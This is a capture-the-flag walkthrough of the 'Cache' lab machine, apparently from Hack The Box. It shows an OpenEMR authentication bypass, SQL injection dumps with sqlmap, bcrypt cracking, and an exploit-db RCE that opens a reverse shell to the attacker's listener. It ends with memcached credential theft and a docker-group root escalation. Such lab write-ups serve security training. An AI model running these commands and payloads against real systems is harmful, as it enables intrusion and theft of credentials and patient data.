



# Cache <br/>


## Enumeration

### Nmap

Started with the following nmap command:
<br />
```bash
nmap -sV -sC -p 1-10000 -oA nmap.res -v cache.htb
```
<br />This is the nmap result.
<br />
```bash
Nmap scan report for cache.htb (10.10.10.188)
Host is up (0.28s latency).
Not shown: 9998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a9:2d:b2:a0:c4:57:e7:7c:35:2d:45:4d:db:80:8c:f1 (RSA)
|   256 bc:e4:16:3d:2a:59:a1:3a:6a:09:28:dd:36:10:38:08 (ECDSA)
|_  256 57:d5:47:ee:07:ca:3a:c0:fd:9b:a8:7f:6b:4c:9d:7c (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Cache
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Sep 25 23:40:04 2020 -- 1 IP address (1 host up) scanned in 226.08 seconds
```
<br />An **ssh server** and a **web server** is open. Let's check the webpage first.

### Web Pages Enumeration

By going to the homepage, here is the presented web page.<br />


<br />There are a couple of links in here but we are interested these two:<br />


#### Login Page
Let's check the **```/login.html```**. Upon visting the page, we are prompted for username and password.<br />


<br/>At this point, we don't have any credentials yet so let's check first the page's source code to check anything that may be useful.<br />


<br />The page source code has shown some important things:
* It revealed that there is a user defined javascript file, named **```functionality.js```** that might be handling the login action.
* It also revealed that we can bypass the login form by accessing **```net.html```** directly.

<br />With these in mind, let's check first the javascript file.

#### Javascript Hardcoded Username and Password
Upong checking the javascript file, there is a hardcoded username and password.
<br />
```javascript
/* /jquery/functinality.js */
$(function(){
    
    var error_correctPassword = false;
    var error_username = false;
    
    function checkCorrectPassword(){
        var Password = $("#password").val();
        if(Password != 'H@v3_fun'){
            alert("Password didn't Match");
            error_correctPassword = true;
        }
    }
    function checkCorrectUsername(){
        var Username = $("#username").val();
        if(Username != "ash"){
            alert("Username didn't Match");
            error_username = true;
        }
    }
    $("#loginform").submit(function(event) {
        /* Act on the event */
        error_correctPassword = false;
         checkCorrectPassword();
         error_username = false;
         checkCorrectUsername();


        if(error_correctPassword == false && error_username ==false){
            return true;
        }
        else{
            return false;
        }
    });
    
});
```
<br/>From the code above we can extract the **```ash:H@v3_fun```** credential. Let's try logging in.<br />
After successful login, this is the **```net.html```** page.<br />


<br />However, there is nothing more to this page. We just have to hold on to those credentials that we have acquired. Thus, bypassing the login page will also become pointless since there is nothing useful even if we actually accessed **```net.html```** without the credentials.<br/>
Let's now Move to the other important link, the **_author.html (Author's Page)_**
#### Author's Page
This is the author's page<br />

<br />One very important note to take here is that the author has another _"project"_ which is the "Hostpital Management System" or HMS. This might pertain that there is another virtual server being hosted. We can add another domain name in our **```/etc/hosts```** for easy resolution to the domain when accessing through the web browser.
<br />
```bash
...
10.10.10.188	cache.htb hms.cache.htb hms.htb cache.hms.htb
...
```
<br />We added a few combinations just to have a few more options.

## OpenEMR

Let's now access **```http://hms.htb```**. We actually hit something and it is the _OpenEMR_ login page.<br />

<br />At this point, we might think that the credentials we have acquired earlier may prove useful. Let's do that.<br />
After entering the username and password acquired earlier, OpenEMR didn't accept those.<br />

<br />Even under different usernames such as **```administrator, admin, openemr,```** etc., the password didn't work. So we have to check if the OpenEMR itself has any vulnerability. And after googling _"OpenEMR Vulnerability"_, a [vulnerability report](https://www.open-emr.org/wiki/images/1/11/Openemr_insecurity.pdf) (in pdf) is among of those results<br />

<br />Since we cannot login to the portal, we need to find a vulnerability that requires no authentication to exploit.

### OpenEMR Vulnerability 1: Patient Portal Authentication Bypass
Upon viewing the pdf, we can see at page 4 there is a patient portal authentication bypass.
>_"2.0 - Patient Portal Authentication Bypass An unauthenticated user is able to bypass the Patient Portal Login by simply navigating to the registration page and modifying the requested url to access the desired page. Some examples of pages in the portal directory that are accessible after browsing to theregistration page include:"_

However, what we're trying to bypass is the administration login page. But with this patient portal bypass, we can actually chain this exploit with an another OpenEMR Vulnerability (SQLI Injection on **```/portal/find_appt_popup_user.php```**) which is a SQLI so that we can leak everything we can find in the database (hopefully there is the OpenEMR administration credentials)
<br />By following the report, let's first go to **```/portal/account/register.php```**. It welcomes us with this webpage:<br />

<br />There is nothing to do here so then let's go to **```/portal/find_appt_popup_user.php```**.

### OpenEMR Vulnerability 2: SQL Injection Against /portal/find_appt_popup_user.php

Upon visiting the page, we will be able to see this.<br />

<br />It seems there is nothing in this page. We can click the "Search" just to see the GET variables to attack with. This is the URL after:
<br />**```http://hms.htb/portal/find_appt_popup_user.php?providerid=&catid=```**
<br />To check if it's really vulnerable to SQLI, let's insert a **```'```** and some string to get a response from the server. I wrote **```'OR 1;```** to **```catid```** to purposely cause error to the query.<br />

<br />It really is vulnerable! Let's pass the automated stuff SQLI now to **```SQLMap```**

#### Setting up SQLMap
Remember that we have to go first to the patient registration page before actually going to the vulnerable page. So we have to get the cookies that we have when we visited the registration page and then set it to SQLMap. The cookies that were set are **```PHPSESSID```** and **```OpenEMR```**:
<br />
```bash

sqlmap -u "http://hms.htb/portal/find_appt_popup_user.php?catid=1" --cookie "OpenEMR=m3s59f9ekb4dokt8po0ecp7u9b;PHPSESSID=4gnsf5ooj66r8rflrrp4r8r6u9"

```
#### Leaking Databases, Tables and Columns
SQLMap setting to leak the databases:
<br />
```bash

sqlmap -u "http://hms.htb/portal/find_appt_popup_user.php?catid=1" --cookie "OpenEMR=m3s59f9ekb4dokt8po0ecp7u9b;PHPSESSID=4gnsf5ooj66r8rflrrp4r8r6u9" --dbs

```
<br />Result:
<br />
```bash
...
[13:30:10] [INFO] fetching database names
[13:30:11] [INFO] retrieved: 'information_schema'
[13:30:11] [INFO] retrieved: 'openemr'
available databases [2]:
[*] information_schema
[*] openemr

```
<br />Let's leak now openemr tables:
<br />
```bash

sqlmap -u "http://hms.htb/portal/find_appt_popup_user.php?catid=1" --cookie "OpenEMR=m3s59f9ekb4dokt8po0ecp7u9b;PHPSESSID=4gnsf5ooj66r8rflrrp4r8r6u9" -D openemr --tables

```
<br />Result:
<br />
```bash
...
[13:44:12] [INFO] retrieved: 'therapy_groups'
[13:44:12] [INFO] retrieved: 'therapy_groups_counselors'
[13:44:12] [INFO] retrieved: 'therapy_groups_participant_attendance'
[13:44:13] [INFO] retrieved: 'therapy_groups_participants'
[13:44:13] [INFO] retrieved: 'transactions'
[13:44:13] [INFO] retrieved: 'user_settings'
[13:44:14] [INFO] retrieved: 'users'
[13:44:14] [INFO] retrieved: 'users_facility'
[13:44:14] [INFO] retrieved: 'users_secure'
[13:44:14] [INFO] retrieved: 'valueset'
[13:44:15] [INFO] retrieved: 'version'
[13:44:15] [INFO] retrieved: 'voids'
[13:44:15] [INFO] retrieved: 'x12_partners'
...
| therapy_groups                        |
| therapy_groups_counselors             |
| therapy_groups_participant_attendance |
| therapy_groups_participants           |
| transactions                          |
| user_settings                         |
| users                                 |
| users_facility                        |
| users_secure                          |
| valueset                              |
| voids                                 |
| x12_partners                          |
+---------------------------------------+

```
<br />We are now going to leak the columns of users_secure:
<br />
```bash

sqlmap -u "http://hms.htb/portal/find_appt_popup_user.php?catid=1" --cookie "OpenEMR=m3s59f9ekb4dokt8po0ecp7u9b;PHPSESSID=4gnsf5ooj66r8rflrrp4r8r6u9" -D openemr -T users_secure --columns

```
<br />Result:
<br />
```bash
...
Database: openemr
Table: users_secure
[9 columns]
+-------------------+--------------+
| Column            | Type         |
+-------------------+--------------+
| id                | bigint(20)   |
| password          | varchar(255) |
| last_update       | timestamp    |
| password_history1 | varchar(255) |
| password_history2 | varchar(255) |
| salt              | varchar(255) |
| salt_history1     | varchar(255) |
| salt_history2     | varchar(255) |
| username          | varchar(255) |
+-------------------+--------------+

```

#### Leaking Administrator Password Hash with SQLMap

Let's leak the credentials under users_secure. Let's dump the usernames and passwords.
<br />
```bash

sqlmap -u "http://hms.htb/portal/find_appt_popup_user.php?catid=1" --cookie "OpenEMR=m3s59f9ekb4dokt8po0ecp7u9b;PHPSESSID=4gnsf5ooj66r8rflrrp4r8r6u9" -D openemr -T users_secure -C username,password --dump

```
<br />Result:
<br />
```bash
...
[13:53:59] [INFO] resumed: 'openemr_admin'
Database: openemr
Table: users_secure
[1 entry]
+---------------+--------------------------------------------------------------+
| username      | password                                                     |
+---------------+--------------------------------------------------------------+
| openemr_admin | $2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B. |
+---------------+--------------------------------------------------------------+
...
```
<br />Now we know that there is only one user in the administration login portal and we leaked its password hash
#### Cracking Administrator Bcrypt Hash W/ Hashcat

Let's identify first what kind of hash it is from [Hashcat list](https://hashcat.net/wiki/doku.php?id=example_hashes). It's a Bcrypt.<br />

<br />Let's crack it using hashcat
<br />
```bash

hashcat -a 0 -m 3200 hashes.txt /usr/share/wordlists/rockyou.txt

```
<br />Result:
<br />
```bash
...
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B.:xxxxxx
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: bcrypt $2*$, Blowfish (Unix)
Hash.Target......: $2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEc...F6P0B.
Time.Started.....: Sat Oct 10 14:11:34 2020 (2 secs)
Time.Estimated...: Sat Oct 10 14:11:36 2020 (0 secs)
...
```
<br />We actually cracked it! The password is **```xxxxxx```** for **```openemr_admin```**. We can now login and this is the web page after logging in:
<br />


### OpenEMR Vulnerability 3: Authenticated RCE via File Upload /portal/import_template.php

Going back to the vulnerability report, there is an arbitrary file upload vulnerability that can lead to remote code execution. (Page 25, section 9.1). However, a POC has already been implemented and uploaded to [exploit-db](https://www.exploit-db.com/exploits/48515). We will use this.<br />
In order for the exploit to work, we need to set the username and password in the POC script:
<br />
```bash
...
data= {
    'new_login_session_management' : '1',
    'authProvider' : 'Default',
    'authUser' : 'openemr_admin',
    'clearPass' : 'xxxxxx',        
    'languageChoice' : '1',
    }
...
```
<br />And also the attacking (our) machine IP address and the port we want to listen to.
<br />
```bash
...
$ip = '10.10.14.23';  # CHANGE THIS
$port = 4444;       # CHANGE THIS
...
```
<br />Now we have to setup our listener before running the exploit script.
<br />
```bash
$ nc -lvp 4444
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
```
<br />Finally, run the exploit script.
<br />
```bash

python3 48515.py

```
<br />If the exploit is successful, we should able to receive a connection:
<br />
```bash
...
Ncat: Connection from 10.10.10.188.
Ncat: Connection from 10.10.10.188:56954.
Linux cache 4.15.0-109-generic #110-Ubuntu SMP Tue Jun 23 02:39:32 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 18:31:39 up  4:20,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 

```
<br />Let's spawn tty from python3 in the target machine to have a better shell.
<br />
```bash
$ python3 -c "import pty; pty.spawn('/bin/bash')"
www-data@cache:/$ 
```
## Privesc Enumeration as www-data

Let's check for other users. Let'c check the /etc/passwd

### Checking /etc/passwd

```bash
www-data@cache:/$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
ash:x:1000:1000:ash:/home/ash:/bin/bash
luffy:x:1001:1001:,,,:/home/luffy:/bin/bash
memcache:x:111:114:Memcached,,,:/nonexistent:/bin/false
mysql:x:112:115:MySQL Server,,,:/nonexistent:/bin/false
```
<br />We can see that there are 2 standard users, ash and luffy. 

## Escalate to User Ash
Remember the credentials that we got from the **```functionality.js```** in the login.html? Let's try it.
<br />
```bash
www-data@cache:/$ su ash
su ash
Password: H@v3_fun

ash@cache:/$ 
```
<br />It worked. We can now get the user flag from the home directory of ash.
## Privesc Enumeration as Ash

### Netstat 
Let's enumerate open tcp ports:
<br />
```bash
ash@cache:/$ netstat -l -n -t
netstat -l -n -t
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:11211         0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp6       0      0 :::80                   :::*                    LISTEN     
tcp6       0      0 :::22                   :::*                    LISTEN     
```
<br />There is an odd port that's open (port 11211). It turns out, it is [Memcached](https://memcached.org/). We can connect to it for keys that might have been set.

### Connecting and Dumping Memcached Contents
We can use Telnet to connect to Memcached.
<br />
```bash
ash@cache:/$ telnet localhost 11211
telnet localhost 11211
Trying ::1...
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.

```
<br />Next we check the items for keys:
<br />
```bash
stats items
stats items
STAT items:1:number 5
STAT items:1:number_hot 0
STAT items:1:number_warm 0
STAT items:1:number_cold 5
STAT items:1:age_hot 0
STAT items:1:age_warm 0

```
<br />The number after "items" is the slab id. There are no other slab ids. We can check the keys inside the slab class.
<br />
```bash
stats cachedump 1 1000
stats cachedump 1 1000
ITEM link [21 b; 0 s]
ITEM user [5 b; 0 s]
ITEM passwd [9 b; 0 s]
ITEM file [7 b; 0 s]
ITEM account [9 b; 0 s]
```
<br />There are some interesting keys here. Let's dump them all.
<br />
```bash
get link
get link
VALUE link 0 21
https://hackthebox.eu
END
get user
get user
VALUE user 0 5
luffy
END
get passwd
get passwd
VALUE passwd 0 9
0n3_p1ec3
END
get file
get file
VALUE file 0 7
nothing
END
get account
get account
VALUE account 0 9
afhj556uo
```
<br />Good! We found the password for luffy. Let's try to switch user.
## Escalate to User Luffy
Let's try switching to uesr luffy.
<br />
```bash
ash@cache:/$ su luffy
su luffy
Password: 0n3_p1ec3

luffy@cache:/$ 
```
<br />It worked!
## Privesc Enumeration as Luffy

### ID 
Let's check what groups user luffy is in.
<br />
```bash
luffy@cache:/$ id
id
uid=1001(luffy) gid=1001(luffy) groups=1001(luffy),999(docker)
```
<br />User luffy is part of the docker group. We can use it to escalate to root. We just have to check the images available in this machine.

### Available Container - Ubuntu Container
Checking for available docker images
<br />
```
docker image ls
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
ubuntu              latest              2ca708c1c9cc        12 months ago       64.2MB
```
<br />We can use this to mount the filesystem and then run shell as root

## Escalate to Root

### GTFOBins - Docker
The exploit is very simple. More info [here](https://gtfobins.github.io/gtfobins/docker/). 
<br />
```bash
luffy@cache:/$ docker run -v /:/mnt --rm -it ubuntu chroot /mnt bash
docker run -v /:/mnt --rm -it ubuntu chroot /mnt bash
root@5ad41b28c422:/#
```
<br />The machine is pwned and we can get the root flag! 
<br />
```bash
root@5ad41b28c422:~# ls -la
ls -la
total 44
drwx------  6 root root 4096 Sep 16 11:06 .
drwxr-xr-x 23 root root 4096 Jul  9 09:26 ..
lrwxrwxrwx  1 root root    9 May  5 11:21 .bash_history -> /dev/null
-rw-r--r--  1 root root 3145 Sep 18  2019 .bashrc
drwx------  2 root root 4096 Sep 18  2019 .cache
drwx------  3 root root 4096 Sep 18  2019 .gnupg
drwxr-xr-x  3 root root 4096 Sep 17  2019 .local
lrwxrwxrwx  1 root root    9 May  5 11:21 .mysql_history -> /dev/null
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   66 Sep 18  2019 .selected_editor
drwx------  2 root root 4096 Sep 17  2019 .ssh
-rw-------  1 root root  532 Sep 17  2019 .viminfo
-rw-------  1 root root   33 Oct 10 19:10 root.txt
```
<br />Thank you for reading.

## Sources:
- https://gtfobins.github.io/gtfobins/docker/
- https://docs.docker.com/engine/reference/commandline/images/
- https://lzone.de/cheat-sheet/memcached
- https://hashcat.net/wiki/doku.php?id=example_hashes
- https://www.open-emr.org/wiki/images/1/11/Openemr_insecurity.pdf
- https://www.exploit-db.com/exploits/48515
- https://github.com/openemr/openemr/ 

